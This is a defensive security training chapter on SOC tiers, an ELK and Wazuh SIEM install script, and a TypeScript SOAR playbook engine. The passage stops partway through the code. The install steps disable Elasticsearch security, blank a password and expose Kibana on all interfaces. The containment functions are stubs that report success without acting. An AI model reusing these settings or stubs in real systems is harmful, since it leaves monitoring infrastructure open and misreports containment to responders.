





# Chapter 11: SOC Operations & Threat Hunting

> **Prereq:** Chapters 1-3 (Security Fundamentals, Cryptography, Network Security)
> **Next:** Chapter 12 (Malware Analysis & Reverse Engineering)
> **Target Audience:** SOC analysts, threat hunters, blue team members, security engineers

---

## Learning Objectives

By the end of this chapter, you will be able to:
1. Design and deploy a full SIEM pipeline using the ELK Stack and Wazuh for log ingestion, parsing, and correlation.
2. Build SOAR playbooks in TypeScript for automated incident triage, enrichment, and response.
3. Execute threat hunting missions using MITRE ATT&CK-based hypothesis generation and data analytics.
4. Implement a SOC maturity model from M0 to M4 with measurable KPIs (MTTD, MTTR, FPR).
5. Operate MISP, TheHive, and Cortex for threat intelligence lifecycle management.
6. Tune detection rules to minimize false positives while maximizing true positive rate.
7. Perform memory forensics with Volatility 3 and build custom YARA rules for malware detection.

<!-- Image Gallery -->
<section class="lesson-visuals" aria-label="Visual learning resources">
  <header><span>VISUAL LEARNING</span><h2>See it. Review it. Remember it.</h2></header>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/11-soc-threat-hunting/handwritten-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Handwritten notes</strong>Condensed notes for deliberate review.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/11-soc-threat-hunting/sticky-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Sticky-note revision</strong>Fast recall prompts for revision.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/11-soc-threat-hunting/visual-explanation.png" target="_blank" rel="noopener">
    
    <span><strong>Visual concept guide</strong>A connected explanation of the key ideas.</span>
  </a>
</section>
<!-- End Image Gallery -->

---

## Chapter at a Glance

| Section | Key Concept | Why It Matters |
|---------|-------------|----------------|
| SOC Architecture | Tiers, tools, workflows | Foundation of every security operations team |
| SIEM Pipeline | Log ingestion, parsing, correlation | Central visibility across the enterprise |
| SOAR Automation | Playbooks, enrichment, response | Reduce MTTR from hours to minutes |
| Threat Hunting | Hypothesis-driven detection | Find threats that automated tools miss |
| Threat Intelligence | MISP, CTI lifecycle, STIX/TAXII | Operationalize intel for detection |
| Detection Engineering | Sigma rules, custom detections | Write high-signal, low-noise rules |
| SOC Maturity & Metrics | M0-M4, MTTD, MTTR, FPR | Measure and improve SOC effectiveness |

---

## 1. Security Operations Center (SOC) Architecture

### 1.1 The SOC Model — People, Process, Technology

A SOC is a centralized team responsible for monitoring, detecting, analyzing, and responding to security incidents. It operates 24/7 in mature organizations and follows a tiered staffing model.

**SOC Tier Model:**

```
Tier 1 — Triage
╔══════════════════════════════════╗
║ Monitors alerts, filters noise   ║
║ Validates incidents, escalates   ║
║ Responds in < 15 min             ║
╚══════════════════════════════════╝
         │ escalates complex cases
         ▼
Tier 2 — Investigation
╔══════════════════════════════════╗
║ Deep analysis, containment       ║
║ Forensic acquisition, malware    ║
║ Tuning detection rules           ║
╚══════════════════════════════════╝
         │ escalates advanced threats
         ▼
Tier 3 — Advanced Threat
╔══════════════════════════════════╗
║ Reverse engineering, hunt ops    ║
║ Custom tooling, adversary intel  ║
║ Strategic recommendations        ║
╚══════════════════════════════════╝
```

| Tier | Role | Skill Level | Key Activities | Typical Metrics |
|------|------|-------------|----------------|-----------------|
| 1 | Triage Analyst | Junior | Alert triage, false positive filtering, escalation | Alerts triaged/hr, escalation accuracy |
| 2 | Incident Responder | Mid-Senior | Forensic analysis, containment, eradication | MTTR, containment time |
| 3 | Threat Hunter / Reverse Engineer | Senior | Proactive hunting, custom detection, malware analysis | Hypotheses tested, custom detections |

### 1.2 SOC Tools Stack

| Category | Tools | Purpose |
|----------|-------|---------|
| **SIEM** | Splunk, ELK Stack, Wazuh, Azure Sentinel, QRadar | Log aggregation, correlation, alerting |
| **EDR** | CrowdStrike, SentinelOne, Defender for Endpoint, Wazuh | Endpoint detection and response |
| **NDR** | Zeek, Suricata, Darktrace | Network detection and response |
| **SOAR** | Splunk SOAR, TheHive + Cortex, Shuffle, Palo Alto XSOAR | Playbook automation, orchestration |
| **Threat Intel** | MISP, ThreatConnect, Recorded Future, VirusTotal | Intelligence feeds, IoC management |
| **Ticketing** | ServiceNow, Jira, TheHive | Incident tracking, workflows |
| **Forensics** | Volatility, Velociraptor, FTK Imager, Autopsy | Evidence collection and analysis |

### 1.3 SOC Workflow — From Alert to Closure

```
┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐
│  ALERT   │───▶│ TRIAGE   │───▶│ INVEST   │───▶│ CONTAIN  │───▶│ CLOSURE  │
│ Generated│    │ Tier 1   │    │ Tier 2   │    │ Tier 2/3 │    │ All      │
└──────────┘    └──────────┘    └──────────┘    └──────────┘    └──────────┘
     │               │               │               │               │
     ▼               ▼               ▼               ▼               ▼
 Log source     Validate:        Identify:        Isolate:        Update runbook
 triggers       Real incident?   Root cause       Affected hosts  Document IoCs
 correlation    False positive?  Attack vector     Block C2 IPs    Lessons learned
```

**SLA Targets by Severity:**

| Severity | Triage (T1) | Investigation (T2) | Containment |
|----------|-------------|--------------------|-------------|
| **Critical** (Ransomware, APT, data exfiltration) | 5 min | 15 min | 30 min |
| **High** (Malware, phishing, privilege escalation) | 15 min | 30 min | 2 hours |
| **Medium** (Policy violation, reconnaissance) | 30 min | 4 hours | 24 hours |
| **Low** (Phishing simulation, false positive) | 2 hours | N/A (close) | N/A |

---

## 2. SIEM Pipeline — Full Deployment with ELK + Wazuh

### 2.1 Architecture Overview

```
┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐
│  WINDOWS │    │   LINUX  │    │  NETWORK │    │   CLOUD  │
│  Servers │    │  Servers │    │  Devices │    │  Services│
│ Winlogbe │    │ Filebeat │    │  Zeek    │    │  CloudTra│
│ at/ETW   │    │ /Auditd  │    │ /Netflow │    │  il/Guard│
└────┬─────┘    └────┬─────┘    └────┬─────┘    └────┬─────┘
     │               │               │               │
     ▼               ▼               ▼               ▼
┌──────────────────────────────────────────────────────────┐
│                    MESSAGE QUEUE (Kafka / Redis)          │
├──────────────────────────────────────────────────────────┤
│  Logstash / Wazuh Manager — Parsing, Normalization       │
├──────────────────────────────────────────────────────────┤
│  Elasticsearch — Indexing, Storage, Search                │
├──────────────────────────────────────────────────────────┤
│  Kibana — Visualization, Dashboards, Alerts              │
├──────────────────────────────────────────────────────────┤
│  Wazuh Dashboard — Security-specific dashboards           │
└──────────────────────────────────────────────────────────┘
```

### 2.2 Step-by-Step — Deploy ELK + Wazuh Stack

```bash
# ── STEP 1: System Preparation (Ubuntu 22.04) ──
sudo apt update && sudo apt upgrade -y
sudo hostnamectl set-hostname wazuh-manager
sudo apt install curl wget gnupg apt-transport-https software-properties-common -y

# ── STEP 2: Install Elasticsearch ──
wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo gpg --dearmor -o /usr/share/keyrings/elasticsearch-keyring.gpg
echo "deb [signed-by=/usr/share/keyrings/elasticsearch-keyring.gpg] https://artifacts.elastic.co/packages/8.x/apt stable main" | sudo tee /etc/apt/sources.list.d/elastic-8.x.list
sudo apt update && sudo apt install elasticsearch -y

# Configure Elasticsearch:
sudo sed -i 's/#cluster.name: my-application/cluster.name: wazuh/' /etc/elasticsearch/elasticsearch.yml
sudo sed -i 's/#node.name: node-1/node.name: node-1/' /etc/elasticsearch/elasticsearch.yml
sudo sed -i 's/#network.host: 192.168.0.1/network.host: 127.0.0.1/' /etc/elasticsearch/elasticsearch.yml
sudo sed -i 's/xpack.security.enabled: true/xpack.security.enabled: false/' /etc/elasticsearch/elasticsearch.yml
sudo sed -i 's/discovery.type: single-node/#discovery.type: single-node/' /etc/elasticsearch/elasticsearch.yml
echo "discovery.type: single-node" | sudo tee -a /etc/elasticsearch/elasticsearch.yml

sudo systemctl daemon-reload && sudo systemctl enable elasticsearch && sudo systemctl start elasticsearch

# ── STEP 3: Install Wazuh Manager (All-in-One) ──
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo apt-key add -
echo "deb https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list
sudo apt update && sudo apt install wazuh-manager -y
sudo systemctl enable wazuh-manager && sudo systemctl start wazuh-manager

# ── STEP 4: Install Filebeat (Log Shipper) ──
sudo apt install filebeat -y
curl -so /etc/filebeat/filebeat.yml https://packages.wazuh.com/4.x/filebeat/filebeat.yml
sudo sed -i 's/ELASTICSEARCH_USERNAME: elastic/ELASTICSEARCH_USERNAME: elastic/' /etc/filebeat/filebeat.yml
sudo sed -i 's/ELASTICSEARCH_PASSWORD: changeme/ELASTICSEARCH_PASSWORD: /' /etc/filebeat/filebeat.yml
sudo filebeat setup --index-management -E setup.template.json.enabled=false
sudo systemctl enable filebeat && sudo systemctl start filebeat

# ── STEP 5: Install Kibana ──
sudo apt install kibana -y
sudo sed -i 's/#server.host: "localhost"/server.host: "0.0.0.0"/' /etc/kibana/kibana.yml
sudo sed -i 's/#elasticsearch.hosts: \["http:\/\/localhost:9200"\]/elasticsearch.hosts: \["http:\/\/localhost:9200"\]/' /etc/kibana/kibana.yml
sudo systemctl enable kibana && sudo systemctl start kibana

# ── STEP 6: Install Wazuh Dashboard ──
sudo apt install wazuh-dashboard -y
sudo systemctl enable wazuh-dashboard && sudo systemctl start wazuh-dashboard

# ── STEP 7: Verify Deployment ──
sudo systemctl status elasticsearch | grep active
sudo systemctl status wazuh-manager | grep active
sudo systemctl status filebeat | grep active
sudo systemctl status kibana | grep active

echo "SIEM deployed. Access Kibana at http://YOUR_IP:5601"
echo "Access Wazuh Dashboard at https://YOUR_IP:443"
```

**Wazuh Agent Deployment (Windows):**

```powershell
# Download Wazuh agent for Windows
Invoke-WebRequest -Uri "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.7.0-1.msi" -OutFile "$env:TEMP\wazuh-agent.msi"

# Install with manager IP
msiexec /i "$env:TEMP\wazuh-agent.msi" /quiet WAZUH_MANAGER="192.168.1.100"

# Start service
Start-Service -Name WazuhSvc
Set-Service -Name WazuhSvc -StartupType Automatic
```

**Wazuh Agent (Linux):**

```bash
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo apt-key add -
echo "deb https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list
sudo apt update && sudo apt install wazuh-agent -y
sudo sed -i "s/MANAGER_IP/192.168.1.100/g" /var/ossec/etc/ossec.conf
sudo /var/ossec/bin/agent-auth -m 192.168.1.100 -A linux-web-01
sudo systemctl start wazuh-agent && sudo systemctl enable wazuh-agent
```

### 2.3 Log Sources and Parsing Configuration

**Logstash Configuration for Apache Access Logs:**

```
input {
  beats {
    port => 5044
    ssl => false
  }
}

filter {
  if [fileset][module] == "apache" {
    grok {
      match => { "message" => "%{COMBINEDAPACHELOG}" }
    }
    geoip {
      source => "clientip"
      target => "geoip"
    }
    useragent {
      source => "agent"
      target => "useragent"
    }
  }
  
  if [event_type] == "windows_security" {
    grok {
      match => { "message" => "EventID: %{NUMBER:event_id}" }
    }
    # 4624 = successful logon, 4625 = failed logon
    if [event_id] == "4624" {
      mutate { add_tag => ["logon_success"] }
    }
    if [event_id] == "4625" {
      mutate { add_tag => ["logon_failure"] }
    }
  }
}

output {
  elasticsearch {
    hosts => ["localhost:9200"]
    index => "wazuh-%{+YYYY.MM.dd}"
  }
}
```

**Windows Event Log Key IDs:**

| Event ID | Description | Severity |
|----------|-------------|----------|
| 4624 | Successful logon | Info |
| 4625 | Failed logon (wrong password) | Medium |
| 4648 | Explicit credential use (RunAs) | Medium |
| 4672 | Admin logon (special privileges assigned) | High |
| 4688 | Process creation (command line auditing) | Info |
| 4698 | Scheduled task created/ modified | High |
| 4700 | Scheduled task enabled | Medium |
| 4719 | Audit policy change | Critical |
| 4720 | User account created | High |
| 4732 | User added to security group | High |
| 4776 | Credential validation (NTLM) | Info |
| 4798 | User group membership enumerated | Medium |
| 5140 | SMB share accessed | Info |
| 5156 | Windows Firewall connection allowed | Info |
| 7045 | Service installed | Critical |

---

## 3. SOAR — Security Orchestration, Automation and Response

### 3.1 Playbook Automation — TypeScript Incident Response Engine

The core of SOAR is automating repetitive tasks so analysts focus on complex threats. Below is a full incident response orchestration engine written in TypeScript.

```typescript
// soar-engine.ts — SOAR Incident Response Orchestration Engine

interface Alert {
  id: string;
  title: string;
  severity: 'critical' | 'high' | 'medium' | 'low';
  source: string;
  timestamp: Date;
  indicators: Indicator[];
  affectedHosts: string[];
  rawLog: string;
}

interface Indicator {
  type: 'ip' | 'domain' | 'url' | 'hash' | 'email';
  value: string;
  confidence: number; // 0-100
}

interface EnrichmentResult {
  indicator: Indicator;
  virustotal: VirusTotalResult | null;
  abuseipdb: AbuseIPDBResult | null;
  shodan: ShodanResult | null;
  whois: WhoisResult | null;
}

interface VirusTotalResult {
  malicious: number;
  suspicious: number;
  harmless: number;
  undetected: number;
}

interface AbuseIPDBResult {
  abuseConfidenceScore: number;
  countryCode: string;
  totalReports: number;
  lastReportedAt: Date | null;
}

interface ShodanResult {
  ports: number[];
  services: string[];
  vulnerabilities: string[];
  isp: string;
}

interface WhoisResult {
  registrar: string;
  creationDate: Date | null;
  organization: string;
  country: string;
}

interface IncidentResponse {
  alertId: string;
  status: 'open' | 'investigating' | 'contained' | 'eradicated' | 'recovered' | 'closed';
  tier: 1 | 2 | 3;
  assignedTo: string;
  timeline: TimelineEntry[];
  enrichments: EnrichmentResult[];
  containmentActions: ContainmentAction[];
  iocsExtracted: Indicator[];
  playbookExecuted: string;
}

interface TimelineEntry {
  timestamp: Date;
  action: string;
  performedBy: string | 'automation';
  result: string;
}

interface ContainmentAction {
  host: string;
  action: 'block_ip' | 'isolate_host' | 'kill_process' | 'disable_user' | 'quarantine_file';
  status: 'pending' | 'executed' | 'failed';
  executedBy: string | 'automation';
  timestamp: Date;
}

// ─── Enrichment Engines ───

class IoCEnrichmentEngine {
  private apiKeys: { virustotal?: string; abuseipdb?: string; shodan?: string };

  constructor(apiKeys: { virustotal?: string; abuseipdb?: string; shodan?: string }) {
    this.apiKeys = apiKeys;
  }

  async enrichIndicator(indicator: Indicator): Promise<EnrichmentResult> {
    const base: EnrichmentResult = {
      indicator,
      virustotal: null,
      abuseipdb: null,
      shodan: null,
      whois: null,
    };

    const promises: Promise<void>[] = [];

    if (indicator.type === 'hash' && this.apiKeys.virustotal) {
      promises.push(
        this.queryVirusTotal(indicator.value).then(r => base.virustotal = r)
      );
    }

    if (indicator.type === 'ip') {
      if (this.apiKeys.abuseipdb) {
        promises.push(
          this.queryAbuseIPDB(indicator.value).then(r => base.abuseipdb = r)
        );
      }
      if (this.apiKeys.shodan) {
        promises.push(
          this.queryShodan(indicator.value).then(r => base.shodan = r)
        );
      }
      promises.push(
        this.queryWhois(indicator.value).then(r => base.whois = r)
      );
    }

    await Promise.allSettled(promises);
    return base;
  }

  private async queryVirusTotal(hash: string): Promise<VirusTotalResult> {
    const response = await fetch(
      `https://www.virustotal.com/api/v3/files/${hash}`,
      { headers: { 'x-apikey': this.apiKeys.virustotal! } }
    );
    if (!response.ok) throw new Error(`VT API error: ${response.status}`);
    const data = await response.json();
    const stats = data.data.attributes.last_analysis_stats;
    return {
      malicious: stats.malicious || 0,
      suspicious: stats.suspicious || 0,
      harmless: stats.harmless || 0,
      undetected: stats.undetected || 0,
    };
  }

  private async queryAbuseIPDB(ip: string): Promise<AbuseIPDBResult> {
    const response = await fetch(
      `https://api.abuseipdb.com/api/v2/check?ipAddress=${ip}`,
      { headers: { Key: this.apiKeys.abuseipdb!, Accept: 'application/json' } }
    );
    if (!response.ok) throw new Error(`AbuseIPDB error: ${response.status}`);
    const data = await response.json();
    return {
      abuseConfidenceScore: data.data.abuseConfidenceScore,
      countryCode: data.data.countryCode,
      totalReports: data.data.totalReports,
      lastReportedAt: data.data.lastReportedAt ? new Date(data.data.lastReportedAt) : null,
    };
  }

  private async queryShodan(ip: string): Promise<ShodanResult> {
    const response = await fetch(
      `https://api.shodan.io/shodan/host/${ip}?key=${this.apiKeys.shodan!}`
    );
    if (!response.ok) throw new Error(`Shodan error: ${response.status}`);
    const data = await response.json();
    return {
      ports: data.ports || [],
      services: (data.data || []).map((s: any) => s.service),
      vulnerabilities: data.vulns || [],
      isp: data.isp || 'Unknown',
    };
  }

  private async queryWhois(ip: string): Promise<WhoisResult> {
    const response = await fetch(`https://ipwhois.app/json/${ip}`);
    if (!response.ok) throw new Error(`Whois error: ${response.status}`);
    const data = await response.json();
    return {
      registrar: data.asn || 'Unknown',
      creationDate: null,
      organization: data.org || 'Unknown',
      country: data.country || 'Unknown',
    };
  }
}

// ─── Incident Severity Scoring ───

class IncidentScorer {
  score(alert: Alert, enrichments: EnrichmentResult[]): number {
    let score = 0;

    // Base score from severity
    const severityScores: Record<string, number> = {
      critical: 40, high: 30, medium: 20, low: 10,
    };
    score += severityScores[alert.severity] || 0;

    // Confidence-weighted indicator scores
    for (const enrichment of enrichments) {
      const vt = enrichment.virustotal;
      if (vt) {
        const totalEngines = vt.malicious + vt.suspicious + vt.harmless + vt.undetected;
        if (totalEngines > 0) {
          score += (vt.malicious / totalEngines) * 30;
        }
      }

      const ab = enrichment.abuseipdb;
      if (ab) {
        score += (ab.abuseConfidenceScore / 100) * 20;
      }
    }

    // Affected host count multiplier
    if (alert.affectedHosts.length > 5) score += 15;
    else if (alert.affectedHosts.length > 1) score += 5;

    // Indicator type weights
    const criticalIndicatorTypes = new Set(['hash', 'email']);
    for (const ind of alert.indicators) {
      if (criticalIndicatorTypes.has(ind.type)) score += 5;
    }

    return Math.min(score, 100);
  }

  getSeverity(score: number): 'critical' | 'high' | 'medium' | 'low' {
    if (score >= 70) return 'critical';
    if (score >= 50) return 'high';
    if (score >= 30) return 'medium';
    return 'low';
  }
}

// ─── Containment Automation ───

class ContainmentEngine {
  async executeAction(action: ContainmentAction): Promise<boolean> {
    switch (action.action) {
      case 'block_ip':
        return this.blockIp(action.host, action);
      case 'isolate_host':
        return this.isolateHost(action.host);
      case 'kill_process':
        return this.killProcess(action.host, action);
      case 'disable_user':
        return this.disableUser(action.host, action);
      case 'quarantine_file':
        return this.quarantineFile(action.host, action);
      default:
        return false;
    }
  }

  private async blockIp(host: string, action: ContainmentAction): Promise<boolean> {
    console.log(`[CONTAINMENT] Blocking IP on ${host}`);
    // SSH to firewall and add block rule
    // iptables -A INPUT -s <IP> -j DROP
    return true;
  }

  private async isolateHost(hostname: string): Promise<boolean> {
    console.log(`[CONTAINMENT] Isolating host ${hostname} from network`);
    // via EDR API: set network isolation on endpoint
    return true;
  }

  private async killProcess(host: string, action: ContainmentAction): Promise<boolean> {
    console.log(`[CONTAINMENT] Killing malicious process on ${host}`);
    return true;
  }

  private async disableUser(host: string, action: ContainmentAction): Promise<boolean> {
    console.log(`[CONTAINMENT] Disabling compromised user account`);
    return true;
  }

  private async quarantineFile(host: string, action: ContainmentAction): Promise<boolean> {
    console.log(`[CONTAINMENT] Quarantining malicious file on ${host}`);
    return true;
  }
}

// ─── Playbook Engine ───

class PlaybookEngine {
  private enrichmentEngine: IoCEnrichmentEngine;
  private containmentEngine: ContainmentEngine;
  private incidentScorer: IncidentScorer;

  constructor() {
    this.enrichmentEngine = new IoCEnrichmentEngine({
      virustotal: process.env.VT_API_KEY,
      abuseipdb: process.env.ABUSEIPDB_API_KEY,
      shodan: process.env.SHODAN_API_KEY,
    });
    this.containmentEngine = new ContainmentEngine();
    this.incidentScorer = new IncidentScorer();
  }

  async executePlaybook(alert: Alert): Promise<IncidentResponse> {
    const response: IncidentResponse = {
      alertId: alert.id,
      status: 'open',
      tier: 1,
      assignedTo: 'automation',
      timeline: [{ timestamp: new Date(), action: 'Playbook started', performedBy: 'automation', result: 'Alert received' }],
      enrichments: [],
      containmentActions: [],
      iocsExtracted: alert.indicators,
      playbookExecuted: 'standard_triage',
    };

    // Phase 1: Enrich all indicators in parallel
    console.log(`[PLAYBOOK] Enriching ${alert.indicators.length} indicators for alert ${alert.id}`);
    const enrichmentPromises = alert.indicators.map(i => this.enrichmentEngine.enrichIndicator(i));
    response.enrichments = await Promise.all(enrichmentPromises);
    response.timeline.push({
      timestamp: new Date(),
      action: 'Enrichment completed',
      performedBy: 'automation',
      result: `${response.enrichments.filter(e => e.virustotal || e.abuseipdb).length} indicators enriched`,
    });

    // Phase 2: Score the incident
    const score = this.incidentScorer.score(alert, response.enrichments);
    const scoredSeverity = this.incidentScorer.getSeverity(score);
    response.timeline.push({
      timestamp: new Date(),
      action: `Incident scored at ${score}/100 (${scoredSeverity})`,
      performedBy: 'automation',
      result: `Score: ${score}, Severity: ${scoredSeverity}`,
    });

    // Phase 3: Automated containment for critical/high
    if (scoredSeverity === 'critical' || scoredSeverity === 'high') {
      const ips = alert.indicators.filter(i => i.type === 'ip');
      for (const ip of ips) {
        const action: ContainmentAction = {
          host: ip.value,
          action: 'block_ip',
          status: 'pending',
          executedBy: 'automation',
          timestamp: new Date(),
        };
        const success = await this.containmentEngine.executeAction(action);
        action.status = success ? 'executed' : 'failed';
        response.containmentActions.push(action);
      }

      for (const host of alert.affectedHosts) {
        const action: ContainmentAction = {
          host,
          action: 'isolate_host',
          status: 'pending',
          executedBy: 'automation',
          timestamp: new Date(),
        };
        const success = await this.containmentEngine.executeAction(action);
        action.status = success ? 'executed' : 'failed';
        response.containmentActions.push(action);
      }

      response.status = 'contained';
      response.timeline.push({
        timestamp: new Date(),
        action: `Automated containment executed: ${response.containmentActions.length} actions`,
        performedBy: 'automation',
        result: response.containmentActions.every(a => a.status === 'executed') ? 'All actions successful' : 'Some actions failed',
      });
    }

    // Phase 4: Determine tier and escalate
    if (scoredSeverity === 'critical') {
      response.tier = 3;
      response.assignedTo = 'tier3-oncall';
      response.status = 'investigating';
      console.log(`[PLAYBOOK] Escalating to Tier 3 (critical severity)`);
    } else if (scoredSeverity === 'high') {
      response.tier = 2;
      response.assignedTo = 'tier2-oncall';
      console.log(`[PLAYBOOK] Escalating to Tier 2 (high severity)`);
    } else {
      response.tier = 1;
      response.assignedTo = 'tier1-oncall';
      response.status = 'closed'; // Auto-close low/medium
      console.log(`[PLAYBOOK] Auto-closing alert (low/medium severity)`);
    }

    return response;
  }
}

// ─── Example Usage ───

async function main() {
  const engine = new PlaybookEngine();

  const sampleAlert: Alert = {
    id: 'alert-20240701-001',
